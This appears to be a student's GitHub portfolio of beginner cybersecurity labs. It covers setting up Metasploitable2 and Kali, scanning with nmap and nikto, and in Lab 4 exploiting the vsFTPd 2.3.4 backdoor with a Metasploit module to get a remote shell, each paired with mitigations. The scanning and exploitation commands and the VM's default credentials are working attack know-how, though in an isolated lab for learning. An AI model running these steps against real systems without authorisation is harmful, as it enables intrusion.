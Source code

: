 # Cybersecurity Labs Portfolio 

Welcome to my hands-on cybersecurity lab portfolio!  
This is where I document everything I'm practicing — from virtual labs to tools like Nmap, Wireshark, Metasploit, and more.

- ## 📚 Table of Contents

## Table of Contents
- [Lab 1: Metasploitable2 Setup](#lab-1-metasploitable2-setup-vulnerable-machine-for-testing)
- [Lab 2: Kali Linux Setup and Reconnaissance](#lab-2-kali-linux-setup-and-reconnaissance)
- [Lab 3: Vulnerability Scanning with Nmap and Nikto](#lab-3-vulnerability-scanning-with-nmap-and-nikto)
- [Lab 4: Exploitation Using Metasploit](#lab-4-exploitation-using-metasploit)
- [What’s Next](#whats-next)


##  Lab 1: Metasploitable2 Setup (Vulnerable Machine for Testing)

Tool Used: VirtualBox  
System: Metasploitable2 (Ubuntu 2.6.24)  
Status:  Completed

###  What I Did:
- Imported the Metasploitable2 VM into VirtualBox
- Configured network settings (NAT and Host-only for Kali interaction)
- Logged in with default credentials: msfadmin/msfadmin
- Verified system status:
  ```bash
  ip a
  uname -a


## Lab 2: Kali Linux Setup and Reconnaissance  

## 1) Goal  
Set up Kali Linux in VirtualBox and perform basic network reconnaissance to identify the Metasploitable2 target.  

## 2) Environment  
- Host: Windows 11, VirtualBox 7.x  
- Attacker: Kali Linux 2025.2 (VirtualBox Image)  
- Target: Metasploitable2 (Ubuntu 2.6.24)  
- Network: Host-only (192.168.56.0/24)  

## 3) Steps & Commands  

*What I Did:*  
- Installed Kali Linux VM in VirtualBox  
- Connected it to the same network as Metasploitable2  
- Discovered Metasploitable2’s IP address  

*Verified system status:*
bash
ip a
uname -a


*Network discovery with Netdiscover:*
bash
netdiscover -r 192.168.56.0/24


*Basic Nmap scan:*
bash
nmap -sS [target_IP]


## 4) Results & Screenshots
- ip a confirmed Kali network interface up and running.
- netdiscover revealed Metasploitable2 IP (e.g., 192.168.56.101).
- Nmap detected several open ports (21-FTP, 22-SSH, 23-Telnet, 80-HTTP, 3306-MySQL).

(add screenshots here)

## 5) Findings & Mitigation
- *Telnet (23/tcp)* open → insecure plaintext protocol.  
  Mitigation: Disable Telnet, use SSH instead.  
- *FTP (21/tcp)* allows anonymous login → risk of unauthorized access.  
  Mitigation: Disable anonymous login, enforce authentication.

## 6) Reflection
This lab taught me how to install/configure Kali, connect VMs on host-only, and run recon with netdiscover + Nmap.


## Lab 3: Vulnerability Scanning with Nmap and Nikto

## 1) Goal  
Perform deeper vulnerability scanning by:  
- Using *Nmap* for service and version detection.  
- Running *Nikto* to identify web server vulnerabilities.  

## 2) Environment  
- Host: Windows 11, VirtualBox 7.x  
- Attacker: Kali Linux 2025.2 VM  
- Target: Metasploitable2 (Ubuntu 2.6.24)  
- Network: Host-only (192.168.56.0/24)  

## 3) Steps & Commands  

*Service and version detection with Nmap:*  
```bash
nmap -sV [target_IP]

Web vulnerability scanning with Nikto:

nikto -h http://[target_IP]


4) Results & Screenshots
	•	Nmap Results:
	•	Detected services and versions (Apache HTTPD 2.x, MySQL, vsFTPd).
	•	Confirmed target is running multiple outdated services.
	•	Nikto Results:
	•	Found potential vulnerabilities (e.g., outdated Apache server, directory indexing enabled, insecure HTTP headers).
	•	Reported multiple findings with severity levels.

 Add screenshots here:
	•	Nmap scan output
	•	Nikto scan results


5) Findings & Mitigation
	•	Apache HTTPD outdated → risk of known exploits.
	•	Mitigation: Upgrade to latest stable Apache version.
	•	Directory indexing enabled → information disclosure.
	•	Mitigation: Disable directory listing in Apache config.
	•	Missing security headers → weak against XSS/Clickjacking.
	•	Mitigation: Add X-Frame-Options, X-Content-Type-Options, CSP headers.


6) Reflection

This lab helped me move from basic reconnaissance (Lab 2) to detailed vulnerability analysis:
	•	Learned how Nmap’s -sV option reveals software versions.
	•	Used Nikto to identify common web vulnerabilities.
	•	Understood how to map results to real-world mitigations.


## Lab 4: Exploitation Using Metasploit

### 1) Goal
Demonstrate exploitation of a vulnerable service (vsFTPd 2.3.4 backdoor) on Metasploitable2 using the Metasploit Framework.

### 2) Environment
- Host: Windows 11, VirtualBox 7.x  
- Attacker: Kali Linux 2025.2 VM  
- Target: Metasploitable2 (Ubuntu 2.6.24 VM)  
- Tool: Metasploit Framework (msfconsole)  

### 3) Steps & Commands

*Launched Metasploit Framework:*
bash
msfconsole


*Searched for available exploits:*
bash
search vsftpd


*Selected and configured exploit module:*
bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST [target_IP]
exploit


*Interacted with the session (if successful):*
bash
sessions -i 1
whoami
uname -a


### 4) Results & Screenshots
- Successfully launched Metasploit and selected the vsFTPd 2.3.4 exploit.  
- Exploit executed → gained remote shell access to Metasploitable2.  
- Verified access using whoami and uname -a.  

Add screenshots here:  
- Metasploit module loaded  
- Exploit success message  
- Proof of shell access on target  

### 5) Findings & Mitigation
- *Finding:* vsFTPd 2.3.4 is vulnerable due to a known backdoor.  
  *Mitigation:* Upgrade or disable the vulnerable FTP service.  
- *Finding:* Exposed FTP service was accessible on the network.  
  *Mitigation:* Restrict access with firewall rules and enforce strong authentication.  

### 6) Reflection
This lab taught me how to:  
- Use Metasploit to search, select, and execute exploit modules.  
- Understand how scanning (Lab 2–3) leads to exploitation (Lab 4).  
- Recognize the importance of patch management and disabling unused services.  





Stay tuned! 
 
 
